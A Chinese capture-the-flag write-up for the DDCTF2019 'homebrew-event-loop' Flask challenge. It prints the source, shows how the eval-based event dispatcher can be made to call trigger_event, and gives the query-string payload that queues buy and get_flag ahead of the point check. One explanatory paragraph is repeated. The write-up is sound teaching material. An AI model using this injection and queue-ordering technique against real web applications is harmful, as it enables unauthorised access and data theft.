



# DDCTF2019-homebrew-event-loop

首先打开网页



上面显示现在你有0个钻石，3个积分

然后点击Go to e-shop，看到可以用一个积分买一个钻石。

点击view source code，可以查看源码，然后python代码审计

```
from flask import Flask, session, request, Response
import urllib

app = Flask(__name__)
app.secret_key = '*********************'  # censored
url_prefix = '/d5afe1f66147e857'


def FLAG():
    return '*********************'  # censored


def trigger_event(event):
    session['log'].append(event)
    if len(session['log']) > 5:
        session['log'] = session['log'][-5:]
    if type(event) == type([]):
        request.event_queue += event
    else:
        request.event_queue.append(event)


def get_mid_str(haystack, prefix, postfix=None):
    haystack = haystack[haystack.find(prefix)+len(prefix):]
    if postfix is not None:
        haystack = haystack[:haystack.find(postfix)]
    return haystack


class RollBackException:
    pass


def execute_event_loop():
    valid_event_chars = set(
        'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_0123456789:;#')
    resp = None
    while len(request.event_queue) > 0:
        # `event` is something like "action:ACTION;ARGS0#ARGS1#ARGS2......"
        event = request.event_queue[0]
        request.event_queue = request.event_queue[1:]
        if not event.startswith(('action:', 'func:')):
            continue
        for c in event:
            if c not in valid_event_chars:
                break
        else:
            is_action = event[0] == 'a'
            action = get_mid_str(event, ':', ';')
            args = get_mid_str(event, action+';').split('#')
            try:
                event_handler = eval(
                    action + ('_handler' if is_action else '_function'))
                ret_val = event_handler(args)
            except RollBackException:
                if resp is None:
                    resp = ''
                resp += 'ERROR! All transactions have been cancelled. <br />'
                resp += '<a href="./?action:view;index">Go back to index.html</a><br />'
                session['num_items'] = request.prev_session['num_items']
                session['points'] = request.prev_session['points']
                break
            except Exception, e:
                if resp is None:
                    resp = ''
                # resp += str(e) # only for debugging
                continue
            if ret_val is not None:
                if resp is None:
                    resp = ret_val
                else:
                    resp += ret_val
    if resp is None or resp == '':
        resp = ('404 NOT FOUND', 404)
    session.modified = True
    return resp


@app.route(url_prefix+'/')
def entry_point():
    querystring = urllib.unquote(request.query_string)
    request.event_queue = []
    if querystring == '' or (not querystring.startswith('action:')) or len(querystring) > 100:
        querystring = 'action:index;False#False'
    if 'num_items' not in session:
        session['num_items'] = 0
        session['points'] = 3
        session['log'] = []
    request.prev_session = dict(session)
    trigger_event(querystring)
    return execute_event_loop()

# handlers/functions below --------------------------------------


def view_handler(args):
    page = args[0]
    html = ''
    html += '[INFO] you have {} diamonds, {} points now.<br />'.format(
        session['num_items'], session['points'])
    if page == 'index':
        html += '<a href="./?action:index;True%23False">View source code</a><br />'
        html += '<a href="./?action:view;shop">Go to e-shop</a><br />'
        html += '<a href="./?action:view;reset">Reset</a><br />'
    elif page == 'shop':
        html += '<a href="./?action:buy;1">Buy a diamond (1 point)</a><br />'
    elif page == 'reset':
        del session['num_items']
        html += 'Session reset.<br />'
    html += '<a href="./?action:view;index">Go back to index.html</a><br />'
    return html


def index_handler(args):
    bool_show_source = str(args[0])
    bool_download_source = str(args[1])
    if bool_show_source == 'True':

        source = open('eventLoop.py', 'r')
        html = ''
        if bool_download_source != 'True':
            html += '<a href="./?action:index;True%23True">Download this .py file</a><br />'
            html += '<a href="./?action:view;index">Go back to index.html</a><br />'

        for line in source:
            if bool_download_source != 'True':
                html += line.replace('&', '&amp;').replace('\t', '&nbsp;'*4).replace(
                    ' ', '&nbsp;').replace('<', '&lt;').replace('>', '&gt;').replace('\n', '<br />')
            else:
                html += line
        source.close()

        if bool_download_source == 'True':
            headers = {}
            headers['Content-Type'] = 'text/plain'
            headers['Content-Disposition'] = 'attachment; filename=serve.py'
            return Response(html, headers=headers)
        else:
            return html
    else:
        trigger_event('action:view;index')


def buy_handler(args):
    num_items = int(args[0])
    if num_items <= 0:
        return 'invalid number({}) of diamonds to buy<br />'.format(args[0])
    session['num_items'] += num_items
    trigger_event(['func:consume_point;{}'.format(
        num_items), 'action:view;index'])


def consume_point_function(args):
    point_to_consume = int(args[0])
    if session['points'] < point_to_consume:
        raise RollBackException()
    session['points'] -= point_to_consume


def show_flag_function(args):
    flag = args[0]
    # return flag # GOTCHA! We noticed that here is a backdoor planted by a hacker which will print the flag, so we disabled it.
    return 'You naughty boy! ;) <br />'


def get_flag_handler(args):
    if session['num_items'] >= 5:
        # show_flag_function has been disabled, no worries
        trigger_event('func:show_flag;' + FLAG())
    trigger_event('action:view;index')


if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0')
```

首先先看看怎么获取flag

```
166 def get_flag_handler(args):
167     if session['num_items'] >= 5:
168         # show_flag_function has been disabled, no worries
169         trigger_event('func:show_flag;' + FLAG())
170     trigger_event('action:view;index')
```

session['num_items'] 大于等于5的话，就会把flag放在session里面

---

```
153 def consume_point_function(args):
154     point_to_consume = int(args[0])
155     if session['points'] < point_to_consume:
156         raise RollBackException()
157     session['points'] -= point_to_consume
```

这个函数会先判断session中的points是否小于我们想要购买的数量。如果小于的话就减掉。例如我们购买5个flag，但是只有3个金币，会先购买5个吗，然后判断钱是不是够，不够就再减去。

然后再从路由来看

```
@app.route(url_prefix+'/')#使用 route() 装饰器告诉 Flask 什么样的URL 能触发我们的函数
def entry_point(): 
    querystring = urllib.unquote(request.query_string) 
    #urllib.unquote  ：urlencode逆向，就是把%40转化为@（字符串被当作url提交时会被自动进行url编码处理，在python里也有个urllib.urlencode的方法，可以很方便的把字典形式的参数进行url编码）
    #request.query_string：它得到的是，url中？后面所有的值，最为一个字符串，比如action:index;False#False
    request.event_queue = [] #定义一个数组
    if querystring == '' or (not querystring.startswith('action:')) or len(querystring) > 100: 
    #如果这个url？后面的值为空 或者 这个url？后面的值不是以action开头 或者 这个url？后面的值长度大于100  
        querystring = 'action:index;False#False' 
    if 'num_items' not in session: #如果session里面还没有num_items这个key
        session['num_items'] = 0 #钻石数量
        session['points'] = 3 #积分数量
        session['log'] = [] 
    request.prev_session = dict(session) #新建一个字典request.prev_session使其的值为字典session的值
    trigger_event(querystring) #调用了trigger_event
    return execute_event_loop() #进入到execute_event_loop函数
```

这里调用了trigger_event函数

```
def trigger_event(event):
    session['log'].append(event)#将event添加到session['log']这个列表中
    if len(session['log']) > 5: #如果列表session['log']中的元素数量大于等于5
        session['log'] = session['log'][-5:]#session['log']取后五个元素
    if type(event) == type([]): #如果event的类型是列表
        request.event_queue += event #两个列表相加，在列表request.event_queue中添加一个元素 event
    else:
        request.event_queue.append(event)  #在列表request.event_queue中添加一个元素 event
```

再跟进一下execute_event_loop函数

```
        else:
            is_action = event[0] == 'a'
            action = get_mid_str(event, ':', ';')
            args = get_mid_str(event, action+';').split('#')
```

action的话会直接返回第一个;之后的内容
参数这里用#做了一下分割，并返回一个列表到args里

```
event_handler = eval(action + ('_handler' if is_action else '_function')) 
ret_val = event_handler(args) 
```

action的话会直接返回第一个;之后的内容
参数这里用#做了一下分割，并返回一个列表到args里

```
event_handler = eval(action + ('_handler' if is_action else '_function')) 
ret_val = event_handler(args) 
```

这里有一个任意函数调用。action传入之后会有一个后缀拼接，但是可以直接用#绕过，因为是eval执行的，eval会把这个字符串当作[python](https://so.csdn.net/so/search?q=python&spm=1001.2101.3001.7020)代码执行，所以后缀就绕过了。所以可以action,trigger_event#;来调用自己绕过后缀拼接。从而执行多个函数

发现存在逻辑漏洞：就是我们的钱无论够不够，它都会给我们先加上，然后扣掉
我们发现第148行，无论我们的钱够不够，都先给我们加上，之后再扣掉

**若让eval()去执行trigger_event()，并且在后面跟两个命令作为参数，分别是buy和get_flag，那么buy和get_flag便先后进入队列。**
**根据顺序会先执行buy_handler()，此时consume_point进入队列，排在get_flag之后，我们的目标达成。**

最终payload为：

```
?action:trigger_event%23;action:buy;5%23action:get_flag;
```

然后使用bp抓包可以抓到session



然后使用解密脚本解密



得到

```
ZnVuYzpzaG93X2ZsYWc7ZmxhZ3swNTE4M2QwZC0wMjRkLTQ1ZmMtOGJlMy1iMTM0NGEzMTQ5MjJ9
```

解密之后得到flag

```
func:show_flag;flag{05183d0d-024d-45fc-8be3-b1344a314922}
```


